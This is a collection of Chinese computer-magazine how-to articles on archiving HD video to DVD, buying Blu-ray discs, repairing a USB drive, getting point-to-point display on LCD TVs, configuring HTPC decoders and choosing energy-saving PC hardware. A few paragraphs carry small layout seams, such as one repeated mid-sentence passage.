## Part2 没有蓝光也能永存高清视频

一部1080p标准的高清大片约为15~20GB，于是硬盘容量再度成为了我们探讨的热门话题。很多高清玩家的硬盘剩余空间频频发出了警报，而为了解决存储容量问题，使用DVD刻录机分割刻录将是没有蓝光刻录机的时候最可行的方案。

### 1.用于PC播放的分割存储方式

通常我们下载的高清影片都是分割好的，可是还有一些影片是没有分割的。对于单个10GB以上的HDTV高清视频文件来说，就连双层DVD刻录盘也保存不下，因此切割后进行刻录是最佳的方案。

#### Step1：封装成TS格式

少数网上下载的高清视频文件是直接从蓝光或者HD DVD上拷贝下来的，因此会出现一个大容量的EVO文件，而其他小容量的EVO往往是花絮、片头或片尾。对此，建议大家先使用TSRemux工具将最大的EVO文件封装成TS格式，以便为后续的分割做好准备。当然，如果大家下载到的高清视频已经是TS格式了，那么这一步完全可以省略。

TSRemux的用法非常简单，打开后先把“Use async I/O”的勾选取消掉（默认是勾选的），然后再选择源文件。“Output Format”代表转制格式选择，一般推荐TS格式，而其他所有选项都使用默认值即可。最后按下Remux按钮，就可以开始转换了，时间长短与源文件大小、电脑配置有关。



如图8，“Use async I/O”的勾选要取消掉。

#### Step2：分割TS文件

支持TS文件分割与合并的软件有很多，包括大名鼎鼎的Adobe Premiere。但是，分割TS文件其实并不复杂，因此使用一些小工具反而更加高效。这里，我们推荐TSSplitter、HDTVtoMPEG2和HDTV EXPERT等工具软件。以TSSplitter为例，打开后在“Source File”中导入刚才转换后的TS文件，并且顺便在“Destination Folder”中设置输出路径，至于命名规则就直接使用默认设置即可。最为关键的设置在于分卷信息，TSSplitter默认是4300MB，也就是普通D5刻录盘的容量。但是，考虑到部分DVD刻录盘外圈的质量并不好，所以建议大家设置成4000MB。完成以上设置后，直接选择“Start Splitting”即可。



设置后，直接选择“Start Splitting”即可。如图9，设置分卷容量是关键。

> > 小贴士 | DVD刻录盘与硬盘的存储成本对比
> > DVD刻录机的使用成本非常低。一台DVD刻录机的价格一般不超过300元，而一张普通的D5 DVD刻录盘的价格在2元左右，而容量则是在4.3GB左右。即使按每张DVD刻录盘保存4GB的数据来计算，50张DVD刻录盘可以保存200GB的数据，而总的花费也只有100元，比起一块200GB硬盘的价格要便宜得多。

#### Step3：刻录光盘

由于此刻录光盘以数据盘的形式制作，因此实际上并没有多少讲究，只要选择质量好一些的刻录盘就可以了。唯一要提醒大家的是，如果刻录的单个文件超过4G，则必须要使用DVD UDF格式。以Nero为例，在新建编译的对话框中，选择“DVD”－“DVD-ROM（UDF）”。

### 2. 用于DVD播放机的存储方式

如果大家希望可以使用DVD播放器来播放高清视频，那么只要稍微降低对画质的要求，还是很容易实现的。目前市面上销售的DVD播放机基本都支持MPEG4格式，少数高端产品甚至还可能是高编码速率的MPEG2文件。因此，将高清视频转制后直接播放便成为可能。尽管此时对画质的折损比较明显，但是毕竟比网上下载或是外面买到的光盘要清晰多了。

MPEG4也就是大家所熟知的DVDRip的编码技术，可以分为DivX和xVID两大派系，其编码解码器可以到divx.com以及xVID.org下载。需要注意的是，DivX和xVID仅仅是编码解码器，真正使用时还需要一个外挂程序，常见的VirtualDub、FlaskMPEG以及VideoStudio都可以胜任，我们这里以FlaskMPEG为例。由于大多数DVD播放机只能支持DivX，因此还是推荐使用该编码器，不要使用xVID。

HDTVtoMPEG2是我们首先要使用的软件，这可以把高清视频转换成标准的MPEG2文件。随后，打开VirtualDub并导入MPEG2文件，将编码方式设置为DivX。这里需要特别注意的是，DivX编码有分辨率和编码速率两个参数，这取决于DVD播放机的性能。一般来说，640×480分辨率以及3Mbps编码速率是大部分机型都可以支持的，但是具体还是以产品说明书为准。完成视频格式转换之后，直接以数据盘形式刻录到DVD光盘就可以，只是千万不要建立任何目录，否则部分DVD播放机会无法识别。



如图10，设置DivX编码速率和分辨率。

## Part3 高清影碟如何购买才划算？

由于目前蓝光驱动器的普及度比HD-DVD驱动器更高，再加上索尼PS3已经可以支持蓝光播放，因此国内片源渠道中，蓝光的数量远远压倒HD-DVD。目前，不少正版蓝光影碟的价格约在220元一张，而HD-DVD则略微便宜一些，约在200元左右。

## 盗版刻录性价比不高

盗版影碟总是被认为有着较高的性价比，但是在蓝光领域，却并不是这么回事。首先，蓝光刻录盘的成本居高不下，这导致没有什么大规模的盗版制作商。目前网上销售的盗版蓝光影碟大多是个体商户自己刻录的，其显著的缺点在于视频和音频部分表现均不理想。

其实，目前正版蓝光影碟以1080p标准的MPEG2-TS编码为主，但是编码格式因为版权保护技术的存在而使得转制非常不便。因此，盗版制作商的片源以网络下载为主，一般是H.264编码。这里就存在一个明显的问题，那就是编码格式的转换。一旦盗版制作时想要转换成通用性更好的MPEG2-TS，稍有处理不当便会造成画质损失。此外，目前网络上流行的高清视频普遍存在“重画质、轻音质”的现象，导致盗版蓝光影碟的音效并不理想。当然，最重要的还是价格问题，现在一张蓝光刻录盘的价格约在百元左右。算上制作成本和利润，售价普遍保持在150~180元之间。对比200元出头的正版光盘，无论是性价比还是收藏价值，我们都更加推荐正版蓝光影碟。图11，正版蓝光影碟才更具价值。


## 写在最后：

随着东芝正式宣布停产各类HD DVD格式产品，并逐步退出市场，经过三年之久的新一代光存储格式鏖战终于以蓝光大获全胜而告终。现在，蓝光刻录机已经大幅度降价，并且BD-COMBO也变得越来越便宜，到了该为蓝光应用做好充分准备的时候了。

## 关注中文字幕

既然蓝光高清影碟有着一定的收藏价值，那么是否具备中文字幕也就显得非常关键了。一般来说，索尼家庭娱乐出品的Blu-ray蓝光影碟都带有中文字幕。不过，目前市场上普遍存在认为只有索尼家庭娱乐出品的Blu-ray蓝光影碟才有中文字幕的误区，其实不然。确实索尼家庭娱乐出品的Blu-ray蓝光影碟很多都有中文字幕，准确地说绝大多数哥伦比亚三星出品的影片带中文字幕的比例才是更高，在DVD时代美国发行的影碟也有一些带中文字幕的，这个都要感谢索尼了。很多别的国家出品的蓝光影碟一样有中文字幕的，比如说最新发行的《加勒比海盗1.2》日本版、《功夫》的韩国版，这些蓝光碟一样拥有中文字幕，用以吸引更多的客户购买。我们购买时还是尽量多购买这样有字幕的，至少对于保值性和可观赏性是有很大提高的。

## 音频效果不可忽视

蓝光和HD-DVD可不仅仅是高清画面，毕竟高清概念也包含了高质量的音频。音频的传送速率越高，信息量就越大，通常也代表着音质越好。以蓝光影碟为例，Linear PCM5.1音轨的编码速率达到4.6Mbps，而在DVD时代我们熟悉的杜比数字5.1码率每秒最高也就是448kbps，DTS音轨也许要更高一些，但是也只能达到半码768Kbps和全码1536Kbps而已。如果大家拥有HDMI端子的家庭影院功放或是直接使用PC软件以及PS3解码，那么感受一下每秒4.6Mbps的传输速率，你会发现差异是非常大的。Linear PCM5.1声音层次清晰、定位准确、低频下潜有力富有层次、动态扩展感觉非常明显，采用这种音频编码的高清影碟才更加值得选购。

## 巧用加密软件修U盘

◆文/华军

故障现象：近来笔者的U盘空间突然变小，128MB的U盘最多只能存40MB的文件，超过了40MB，系统就会出现假死现象。重启后，U盘内的文件无法正常使用。试了好几款U盘修复工具，给U盘进行低格，都没有把U盘修好。

故障分析：估计是U盘出现了坏道，因为U盘文件是按顺序存取的，U盘有了坏道，所以，坏道后面的部分空间就无法使用了。如果能够给U盘进行分区，是不是后面的那一部分就能使用了呢？经过一番搜索，还真找到了一个这样的工具——优易U盘加密软件（下载地址：Http://www.onlinedown.net/soft/41347.htm），最后成功地修复了U盘。

解决方法：将软件下载并解压到U盘中，从U盘中运行该程序，在主窗口中拖动小滑块来配置加密区与非加密区的容量比例，调整后再单击“使配置生效”，在弹出的窗口中再设置加密的密码，确定后即可。

这样设置后，加密的那部分空间将会成为一个隐藏的分区，在“我的电脑”中是无法直接看到的，要想打开这个加密的区域，先从U盘中启动优易U盘加密软件，然后输入登录密码，成功后将会自动打开资源管理器并显示加密的分区了。经过这样的修复，U盘最多可以存106MB的文件，修复的还是比较成功的。

以上是我在修复U盘过程中的一点小收获，写出来供大家分享。如果你的U盘也出现了相同的故障，不妨试试看，相信你的U盘也会修好的。



## 架起PC和AV的桥梁
### ——液晶电视应用攻略

◆文/阿亮

### 一、点对点问题的由来：清晰画面的前提

对于液晶面板来说，最佳分辨率只有一个，这是与其物理特性相对应的。如果没能运行在最佳分辨率上，那么画质将会大幅度降低，只能以插值计算的方式来显示，无法满足大多数用户的需求。因此，大屏幕液晶电视连接PC时最首要关注的便是实现点对点，即PC显卡输出的分辨率和液晶电视最佳分辨率一致。

所谓的点对点显示也被称为1:1 Map或者Dot by Dot，从字面上我们就可以看出其中带有一一对应的意思，而它的实质就是分辨率匹配。凡是固定像素的显示设备，其成像器件的分辨率都是固定不变的，这个分辨率一般被称为“物理分辨率”，例如1366×768的物理分辨率即表示它的成像器件具有1366×768个像素。同时，像素也是构成图像的基本单位，1920×1080分辨率的图像即表示该图像由1920×1080个像素构成。只有当图像或信号源的分辨率与电视机物理分辨率正好相同时，它们的像素才有可能出现一对一的映射（即点对点显示），从而让电视机显示出与源图像完全匹配的图像。如图1，新一代液晶电视在点对点兼容性方面的表现大幅度提升。

如果你是一个细心的用户，多半已经发现了一个奇怪的现象，一些等离子电视机的物理分辨率是1024×768或者1024×1024，它们的屏幕纵横比是16:9，但是分辨率的纵横比却不是16:9。不用太过惊奇，这是因为这些等离子显示屏的像素形状为长方形，而不是正方形。1280×720或者1920×1080分辨率的16:9图像，其像素形状都是正方形，如果显示在长方形像素的等离子显示屏上，就必然要对原始图像进行转换。这样一来，自然无法实现点对点显示。如果你“有幸”选择了这样一台电视机，根本没有必要浪费时间去研究如何让它实现点对点显示。

至于液晶电视，由于普遍采用16:9显示比例，因此与PC配合使用时也遭遇尴尬。之所以出现这一现象，主要是因为液晶面板厂商为了防止LCD-TV面板和LCD面板串货，特别将用于PC显示器的面板切割成16:10比例，而用于液晶电视的面板切割成16:9比例。以高清分辨率为例，24英寸PC显示器普遍是1920×1200分辨率（16:10），而液晶电视则是1920×1080分辨率（16:9）。千万不要小看这细微的差别，只要PC显卡输出分辨率和液晶电视对应不上，那么仅仅1个像素的误差就会导致画面粗糙。



比如LG的42英寸高清液晶电视物理分辨率是1920×1080，如果输入一个1920×1079的分辨率，水平方向是点对点了，垂直方向也只差1点，按理效果应该很接近“点对点”的效果，可实际上画质大幅下降，字体都发虚了。这就要看LCD本身如何处理分辨率转化了。还有些LCD对这种情况的处理会采用画面中央全部按点对点显示，只是两侧作转换处理，这种处理方式很不错，可惜应用的不多。

显示比例，因此与PC配合使用时也遭遇尴尬。之所以出现这一现象，主要是因为液晶面板厂商为了防止LCD-TV面板和LCD面板串货，特别将用于PC显示器的面板切割成16:10比例，而用于液晶电视的面板切割成16:9比例。以高清分辨率为例，24英寸PC显示器普遍是1920×1200分辨率（16:10），而液晶电视则是1920×1080分辨率（16:9）。千万不要小看这细微的差别，只要PC显卡输出分辨率和液晶电视对应不上，那么仅仅1个像素的误差就会导致画面粗糙。

> ### 小贴士：不能点对点的具体表现是：
> - 图像不能满屏显示或者图像超出屏幕范围外。
> - 图像不够清晰，边缘有毛刺或重影，图像中的每个像素和液晶电视上的每个像素不能完全对应，这就是点对点命名的来历。
> 如图2，1920×1200与1920×1080细微差别：左图为点对点，右图为非点对点。



## 三、点对点的几种情况

“点对点”还分为好几种类型，并不是每一款液晶电视都支持最完美的点对点模式。在无法实现全屏状态点对点的情况下，一般还能退而求其次，采用别的点对点方式。此外，还有“半点对点”模式，此时纵向分辨率没能一一对应，而横向分辨率是对应的，但是这也依然不是理想的状态。

## 1. 全屏状态“点对点”

视频源分辨率与显示设备物理分辨率一致，并全屏点对点显示。如：某物理分辨率1920×1080的LCD接1920×1080的VGA信号点对点显示。

## 2. 非全屏状态“点对点”

视频源分辨率小于显示设备物理分辨率，并以屏幕中的一块视域点对点显示，未显示部分一般留黑边或者黑框。如：某物理分辨率1366×768的LCD接1024×768的VGA信号以屏中4：3的一块面积点对点显示，左右两边留黑边。

## 3. 超屏状态“点对点”

视频源分辨率大于显示设备物理分辨率，全屏点对点显示视频源等于其物理分辨率的那部分，多出部分超出屏幕外不显示。如：某物理分辨率1366×768的LCD接1368×768的VGA信号全屏点对点显示1366×768那部分，多出2点在屏幕外不显示。

以上就是“点对点”的三种情况，其中第一种是最完美的，也是我们高清电视发烧友孜孜不倦追求的；第二种会牺牲一部分屏幕可视面积，如果只差几个点的话就无所谓了，也可以认为是完美显示方案；第三种情况很少见，跟第二种情况类似，只差几个点的话也是无所谓的。其中要指出一点，第二种情况中的1366×768的LCD点对点显示1024×768的信号很容易实现，基本上接上线后选择4:3模式就可以了，现在的液晶电视都有这个功能，但是由于其牺牲的画面实在太大，少了25%的屏幕面积。所以这种情况不是我们追求的，意义不大。尽量全屏点对点显示图像，这才是我们要追求的。

> 小贴士 什么是半“点对点”
半“点对点”就是指只有水平或者垂直方向上做到了点对点，比如在1366×768的LCD上全屏显示1360×768的信号，这时垂直方向上点对点了，可是水平方向没有，把1360拉到了1366。其实所谓半“点对点”实质还是完全不点对点，因为点对点的定义规定了完全一一对应，不存在半对应的说法。比如1360只差6个点，那么效果就比较好，如果是1280，离1366就差了86个点，画质下降就比较大了。

## 四、实现点对点的操作：向物理分辨率靠拢

首先，选择合适的液晶电视是必需的。一般来说，只要液晶电视具备HDMI接口以及VGA接口，那么大多都支持点对点显示，这对于当前主流市场的新品来说并不是高要求。其次，显卡至少应该具备DVI接口。之所以这样说并不是因为普通VGA接口无法胜任点对点，而是单接口的显卡往往比较低端，视频传输芯片也是集成方式，很可能不支持高分辨率传输，从而造成点对点应用故障。如图3，非高清液晶电视使用VGA连接PC即可。

点对点的另外一个关键问题，就是用什么连接方式来实现点对点，从目前的情况来看，DVI一般都可以点对点，不过目前带DVI接口的液晶电视很少见了，一般都是用HDMI和VGA来实现点对点。在1920×1080面板的液晶电视上，HDMI与1920×1080的信号比较容易点对点，而VGA有点难实现。如图4，高清液晶电视强烈推荐使用HDMI连接PC。





在1366×768面板的液晶电视上，VGA又比较好和1366×768或者1360×768信号点对点，而HDMI就比较难了。至于分量，则比较难实现点对点了，甚至有的1920×1080面板的液晶电视上分量的1080p根本就不支持。如图5，尽量选择接口丰富的显卡或是整合主板。

完成设备的挑选之后，点对点模式的设置可以分为以下两种情况。

## 有点对点功能选项的液晶电视

现在有很多液晶电视都有类似的设计，比如夏普32PX5、东芝37WL68c以及LG 42LC7R等等。当接收到1360×768分辨率信号的时候，屏幕左右各留出3个像素的黑边。而当接收到1368×768分辨率信号的时候，则在屏幕两边各使1个像素超出显示范围，最终目的都是为了保证绝大部分画面的清晰锐利。此外，不少型号的液晶电视干脆还加上了点对点功能选项，在菜单中可以直接选择“PC Link”，液晶电视的电路将为PC显卡的分辨率和刷新率特别优化，肯定可以实现全屏点对点。对于这类产品，一般都拥有DVI或者HDMI接口，而用户最明智的选择就是更换一款新型全接口的显卡，然后直接在传输设置中选择对应液晶电视的物理分辨率即可。


## 无点对点功能选项的液晶电视

液晶电视是否具有点对点功能选项，这从外表和性能参数表里是看不出来的，只有扛着电脑或带着XBOX360等设备现场测试，或者多在家用论坛里转转，看看网友们的经验和心得。此外，不同品牌、不同型号甚至不同批次的液晶电视，能实现点对点显示的连接方式也不同，有些要求VGA输入，有些要求DVI转HDMI输入，所以扛着机器去电器城之前，最好把可能用到的各种线材准备齐全，以免白跑一趟。
但是，点对点万变不离其宗的方式就是让分辨率一一对应。现在，标清液晶电视都是1366×768分辨率，高清统一为1920×1080分辨率。PC显卡输出这两种分辨率存在一定的兼容性障碍。譬如，某些非公版显卡无法支持1366×768分辨率，这是显卡厂商编写驱动时造成的。对此，最好的解决方法就是使用PowerStrip这款软件来调整出针对液晶电视的物理分辨率。其实，显卡并不知道你所连接的液晶电视物理分辨率是多少，而现在厂商所采用的都是买来的成套解决方案，很可能没有对应的分辨率选项。利用PowerStrip软件我们可以读取到显卡或者说Windows认为这台液晶电视应该使用什么分辨率。如图6，进入PowerStrip高级设置。

将光标移动到图标上面直接按左键，出现下拉菜单，按显示器设定，再选择设定，即进入设定菜单。此时，一定选择进阶时序选项对话框，在此对话框内，我们可以点击自定义分辨率选项。如图7，这里可以自定义分辨率与刷新率。

打开Powerstrip软件，这时屏幕右下角会出现一个彩色显示器的小图标，进入自定义分辨率对话框之后，选择软件自带的分辨率配置，PowerStrip软件提供的分辨率非常齐全，我们根据自己的电视机分辨率来选择需要用到的即可。只要是最新版本的PowerStrip，直接选中软件内预设的“1366×768p 60Hz (LCD/TV)”配置，然后点击右下角的新增分辨率即可。通过这番设置，大部分非高清的液晶电视都能实现点对点。如图8，非高清LCD一般可以套用预设的选项。







## 高清解码软件部署

一般配合液晶电视的总是HTPC，而Intel集成显卡往往是HTPC的绝配。对于那些已经使用了独立显卡的用户来说，解码高清电影并不困难，只要安装好显卡驱动，然后确保播放器启用硬件解码加速即可。但是，对于Intel集成显卡来说，其设置方法就复杂得多。

- 1. 除了H.264一切好办

从GM965开始，Intel集成显卡都集成Clear Video技术，这项用于高清视频优化的技术主要包括高分辨率（1920×1080）MPEG-2和VC-1格式高清视频文件的播放加速功能，带硬件加速的高级像素自适应反交错技术、色彩调整、支持HDMI/HDCP数字信号传输接口等。需要注意的是，此时并非完完全全的硬件解码，而是解码加速。但是即便如此，GM965以上的Intel集成显卡在播放1080p规格的MPEG-2视频时也非常流畅，即便是配合单核心的Celeron 4XX系列，也能将CPU占用率控制在50%以下，不会有任何丢帧的现象出现。

不过非常遗憾的是，大家很看重的H.264编码却无法得到Intel集成显卡的任何支持。虽说Intel的Clear Video视频播放引擎也属于可编程设计，不排除Intel公司日后会加入与NVIDIA PureVideo相类似的H.264高清视频播放加速及视频转换加速功能，但是目前还没有任何实质性进展。在软件的选择与“组合”方面，播放HDTV比传统视频更复杂。传统视频通常用某个支持该格式的播放器即可直接播放，而HDTV视频则存在更多技巧。分离器、视频和音频解码器缺一不可，毕竟播放高清视频绝对不是一个“影音风暴”就能解决的，还需要各种插件。

- 2. KMPlayer+月光组合

KMPlayer是Intel集成显卡用户首选的高清视频播放工具，它功能强大、支持媒体类型较多、系统占用率低。与“月光组合”搭配，在单核CPU配置上播放除了H.264编码的高清视频均一帆风顺。这里的“月光组合”其实是另一种播放软件“Moonlight-Elecard MPEG Player”的三大核心：视频解码器（Moonlight Audio Decoder）和分离器（Moonlight-Elecard MPEG Demultiplexer）。其实，“Moonlight-Elecard MPEG Player”也是一款相当优秀的MPEG2播放软件，不论是占用率还是色彩还原度均在同类软件中首屈一指，但无法支持中文字幕是最大遗憾。所以，我们只能将“Moonlight-Elecard MPEG Player”的三大核心与KMPlayer合为一体，打造最适合低配置电脑使用的优秀播放器。

KMPlayer和Moonlight-Elecard MPEG Player都安装好之后，打开KMPlayer，在菜单上点击“参数选项”进入设置界面。在项目栏中，点击“解码器”→“外部视频解码器”→“搜索扩展解码器”，选择“搜索”。KMPlayer会列出Windows系统中曾经安装的各种解码器，而“Moonlight-Elecard MPEG Player”所附带的“月光核心”也包括在内，此时请点击“确定”按钮。如图9，在KMPlayer中设置解码器。



随后再次进入“解码器”→“外部视频解码器”，将右侧的“MPEG2 Video”类型更改为“Moonlight-Elecard MPEG2 Video Decoder”；再进入“扩展音频解码器”，将右侧“MPEG2 Sound”的类型设置为“Moonlight Audio Decoder”。最后，进入“解码器”→“滤镜管理器”，点击“添加已注册的滤镜”按钮。在添加滤镜列表中选中分离器——“Moonlight-Elecard MPEG2 Demultiplexer”并确定，回到上一层窗口将这个滤镜的优先级设置为“强制使用”即可。

## 3. H.264解码怎么办

通过以上设置，其他编码格式已经能够顺利解决，但是H.264还是困扰大家的难题。由于Intel集成显卡本身无法支持H.264解码，那么就只能纯粹使用软解码。如果纯粹使用播放软件在不进行任何优化的情况下播放H.264高清视频，那么只要编码速率在20Mbps以上，即便是双核奔腾也难以抵挡，酷睿2会略微有丢帧现象。而如果使用更加薄弱的单核低频CPU，其效果更加难以让人接受。

在这种情况下，使用CoreAVC软解码辅助是一条捷径。CoreAVC是一家名为Core Codec的软件厂商推出的高清视频播放解码器，它有复杂的设置步骤，只需要根据自己的要求设置滤镜的相关选项即可，主要是无法达到正常播放的用户通过降低画质或者跳过解码去块的步骤，从而能够达到正常观看的目的。其中，滤镜能够输入的格式包括AVC1、H.264、VSSH等等，所以这款滤镜无法解码RM、AVI等等主流的视频格式，这也就是当用户需要观看H.264的影片时，才需要调用这款解码器。

CoreAVC的设置主要是选项菜单中的“deblocking（解码去块）”。这一单元可以消除H.264压缩编码可能产生的马赛克，提供H264标准画质。传统播放软件都执行这个操作，只是默认状态非常消耗CPU资源，而CoreAVC的奥妙在于对此“偷工减料”。虽然这样损失了画质，但是还有什么比流畅度更重要呢？对平均码率10Mbps编码速率以下的H.264视频，建议选Standard deblocking。当然，单核心CPU用户也可以选“skip all deblocking”。至于更高编码速率的H.264视频，skip all deblocking选项几乎是万能的方法，可有效改进解码流畅度。此外，“skip b-frame deblocking”是比较折中的选择，大家可以根据CPU性能以及H.264视频的编码速率来灵活使用。如图10，CoreAVC软解码中对解码去块的设置。



## 写在最后

液晶电视和HTPC的组合被誉为是数字客厅的绝配。在解决好点对点显示难题之后，只要确保HTPC的集成显卡能够解码高清视频，那么整体高清视听娱乐装备将会显得非常出色。

## 在QQ中也能播放在线电视

一般我们看网络电视都是在相关的软件中进行观看的，不过这样看起来有点不方便，而且还要安装软件才可以，如果换了台电脑就要重新安装软件，很麻烦。其实我们可以把它添加到常用的聊天软件QQ中，这样只要登录QQ就可以观看网络电视，十分方便。

我们可以通过QQ书签把网络电视集成到QQ中，不过默认情况下这个QQ书签是不在QQ面板上的，我们可以打开页面“http://shuqian.qq.com/help/zh_CN/tools.html#p4”，找到“把我的书签放到QQ上”按钮，点击它就会弹出一个“添加迷你门户”的窗口，点击“确定”按钮就可以在QQ面板上添加一个“QQ书签”了（如图1）。

添加好QQ书签后，我们在面板上点击“QQ书签”中的“收藏”按钮，在“地址”中输入网络电视的播放地址“http://www.pps.tv/wslm/ppsu.htm”，在“标题”中输入“网络电视”，完成后点击“添加”就可以了（如图2）。

现在不管我们在哪里登录QQ，只要打开“QQ书签”面板，点击里面收藏的网络电视书签，就可以调用浏览器来在线观看网络电视，非常方便。





## 尽一份社会责任——环保电脑选购与应用

国务院办公厅日前下发《关于限制生产销售使用塑料购物袋的通知》，明确要求从今年6月1日起，在全国范围内禁止生产、销售、使用厚度小于0.025毫米的超薄塑料购物袋，同时禁止超市、商场、集贸市场等零售场所免费提供塑料购物袋。“限塑令”下发后立即在国内掀起一阵提倡环保的潮流，甚至也波及到了IT产业。特别是在这次汶川地震之后，国人的社会责任被强烈地唤醒，越来越多的消费者在选购电脑时开始更加注重环保，以尽到一份社会责任。

◆文/阿亮

## 硬件三部件：节能是关键

对于CPU、硬盘和内存这传统“三大件”来说，实现节能效果是环保的关键。特别是CPU，其制造过程中对环境的污染暂时还没有很彻底的解决方案，我们只能期待通过更低的功耗来减少资源开销。同样，内存芯片的制造也是类似情况，不过内存条厂商却可以实现环保生产。

## 1. 低功耗CPU值得推荐

目前，市场上所谓的低功耗版本产品，可能大家见得比较多的是AMD的产品，因为AMD主流的产品都推出了低功耗的版本。比如Athlon64 X2（Athlon BE）就有35W、45W、65W以及89W这四种TDP功耗版本，而与标准功耗的产品相比，低功耗产品的规格与性能都是一样的。但是，低功耗产品由于采用了品质更好的晶圆，以及设计时位置的优化，令其可以得到更低的功耗。如图1，低功耗CPU需要使用品质更好的晶圆。



低功耗CPU的价格普遍会比普通版本产品高出不少。以Athlon 64 X2 4400+为例，89W TDP功耗的版本已经完全退出市场，在二手市场也难以卖出高价。65W TDP功耗版本的产品报价约为500元（盒装），而35W TDP功耗的盒装版本就高达650元。45W TDP功耗的则是Athlon BE 2350，目前盒装版本报价520元。尽管如此，市场上还是对低功耗产品趋之若鹜。至于更高频率的Athlon 64 X2 4600+，目前也是类似的局面。略微遗憾的是，当前Athlon 64 X2 4800+以上的产品还未推出35W TDP功耗的版本。而在低端的单核心处理器市场，AMD依然有不少35W低功耗产品。Athlon 64 LE1600+ 45W TDP（盒装）目前报价295元，也比普通版本高出50元左右。此外，AMD还发布了45W TDP功耗的新闪龙LE1100，报价约为220元。

Intel台式机CPU的功耗分布非常简单，双核产品全部是65W TDP，而单核赛扬全部是35W TDP。毫无疑问，这样的非人性化设计让不少用户非常为难：单核赛扬难以满足多数用户的性能需求，此时空有低功耗也无济于事；而性能不错的酷睿2双核又存在功耗偏高的瑕疵，用户根本没有第二种选择。

大量的用户因此而转向了AMD桌面平台，尤其是那些网吧用户以及需要长时间开机的Power User。不过，此时区分双核速龙处理器的TDP功耗就显得非常重要。以65nm的Athlon 64 X2 4400+为例，其CPU顶盖编号的第一行是：ADO4400IAA5DD。其中，“ADO”代表TDP功耗为65W，也就是说以开首三个字母进行区别。在AMD速龙CPU的命名规范中，“ADA”、“ADO”、“ADD”分别表示TDP功耗为89W、65W和35W。至于闪龙CPU，“SDA”代表89W TDP，“SDH”表示45W TDP，“SDD”表示35W。截止到目前为止，以上“前缀判断功耗”的方法可适用于所有AMD K8处理器，包括双核速龙、速龙BE、闪龙、闪龙LE等。如图2，45W TDP功耗的新闪龙。



## 2. 环保内存和环保硬盘

每年有数亿根内存被生产制造，而在这些生产制造的过程中，广泛存在的铅焊接技术带来的环境污染是非常惊人的。传统电子产品的制造包括内存产品牵涉到多种焊接，最常见的即是用铅焊接剂。铅对人体尤其是胎儿的危害是相当巨大的：人们通过呼吸、饮食等途径把铅摄入体内，从而对健康形成危害。同时，铅对于儿童、老人以至成年人，都是有相当巨大的危害的。因此，避免铅危害，使内存生产无铅化，就成了广大内存生产厂商的一项造福后代的“绿色工程”。如图3，内存颗粒厂商也在积极推进环保工艺。

目前，几大主流品牌的内存已经全面实现环保生产，但是内存芯片制造过程中的污染又不可能避免，因此环保内存的选购比较简单——认准出货量较大的大品牌即可。作为世界第一大内存生产厂商的金士顿科技公司近期宣布，其全线产品导入无铅化制程。金士顿新## 环保内存产品

环保内存产品已经供给全球通路、零售与合约生产的客户。同时，金士顿亚太工厂将是第一个无铅化模块的出货厂商。此外，宇瞻内存在生产前通过绿色设计及绿色采购，将环保性要求向上游延伸至组件与原物料，以达到环保标准。宇瞻还严密监控其所生产的产品，包括零件、原物料及包装等，以确保生产出的产品都符合环保规范，以及危害物质限制指令。同样，为迎接无铅化环保时代的来临，KINGMAX致力研发无铅制程技术，其高质量的DDR2环保无铅内存放采用无铅化的IC颗粒外，印刷电路板（PCB）及SMT生产线的焊接材料及温度等参数都进行了调整。

## 3. 环保硬盘注重低功耗

相对来说，选购环保的硬盘更加切实可行。西数GreenPower硬盘是当前在这一方面做得非常出色的产品。根据西数计算，如果24×7全天候开机，那么使用该系列硬盘可全年节省电费70元左右。西数的GreenPower产品涵盖了以下技术：

- IntelliPower技术专为兼顾显著的节能和稳定的性能而设计，能够在运转速度、传输速率以及缓存容量之间达到很好的平衡；
- IntelliPark技术通过在闲置时自动卸载磁头以减低气动阻力，从而带来较低的能源损耗；
- IntelliSeek技术计算最佳的寻道速度，以降低运转时的能源损耗、噪音以及震动。

另外，GreenPower系列还增加了动态电源管理功能，智能检测硬盘工作状态，在硬盘闲置时进入待机状态降低功耗，而且从待机状态下重启动的时间不超过1秒。如图4，西数GreenPower硬盘展现低功耗优势。

三星EcoGreen F1也是一款出色的节能环保硬盘。这款产品支持动态FOD磁头保护技术和NoiseGuard、SilentSeek等静音技术。更加重要的是，这些技术并没有严重影响性能，毕竟寻道时间还是保持在8.9ms，平均延迟5.52ms的水平也算不错。此外，三星EcoGreen F1的待机功耗只有0.5W，最高功耗也仅仅4.9W，最高28分贝噪音也令人满意。EcoGreen F1还拥有最高334GB的单碟容量、3.0Gbps SATA2接口、16MB或32MB缓存。但是，与主流产品相比，这类节能环保硬盘最大的区别在于主动将转速降至5400rpm，这或许对于发烧友来说是一种倒退，但由此带来的低能耗和高稳定性更加适合该系列的目标市场。根据三星表示，EcoGreen F1硬盘的1TB型号相比其他厂商的节能硬盘可降低功耗15%，相比没有节能设计的1TB硬盘节约能源更是高达50%。如图5，三星节能硬盘降低了转速。

## 环保板卡深入人心

随着IT技术的不断成熟，IT产品以高性能为核心过渡到了以性价比为主题。而现在，性价比已不是衡量产品的主要因素。反而，环保成为了我们谈论的焦点。欧盟电子环保法已经实施了将近两年，所有在欧盟生产或销往欧盟的电子产品，都必须符合RoHS标准。以往我们评价产品优劣的标准便是性价比，而彻底忽视了对环境的保护。事实上，一旦板卡在生产过程中添加了一些破坏环境的元素，那么其今后的危害性将会相当大。由于板卡本身淘汰的速度非常快，因此其报废之后的处理成为一个全球性的难题。铅作为工业生产中重要的化学添加剂，可以大幅降低焊锡的熔点，提高板卡PCB流水线生产效率。所以，在电子产品焊接时都需要用到铅。而RoHS指令针对IT产业集成电路的主要规范就是实现无铅化生产，这样可以大幅度降低板卡报废后对环境的危害。此外，水银、镉、六价铬等重金属，以及聚溴二苯醚（PBDE）和聚溴联苯（PBB）等阴燃剂也是RoHS指令严令禁止的，要求所有在欧盟地区内销售的产品不含以上元素。如图6，通过RoHS认证的板卡特点。

### 1. 板卡OSP认证

在很多主板或是显卡上，我们经常能看到OSP认证标志。但是与CE或是3C等认证相比，OSP认证的知名度要小得多。其实OSP认证是指板卡的PCB采用无铅化生产并且完全符合RoHS指令。但是需要明确的一点是，仅有板卡PCB实现无铅化生产还远远不够，因为诸如核心芯片、显存芯片以及贴片电子元件等是否符合RoHS指令都非常关键。

# 硬件与数码 SOLUTIONS

更令情况复杂的是，OSP认证实际上并非是对产品的认证，而是对板卡厂商生产流水线的认证。按照OSP认证规范，任何产品只要是从OSP认证生产流水线出来的，就全部符合标准。而厂商在执行这一标准时很可能打一些擦边球，因此OSP认证的实际意义并不大。如图7，板卡上的OSP认证标志。

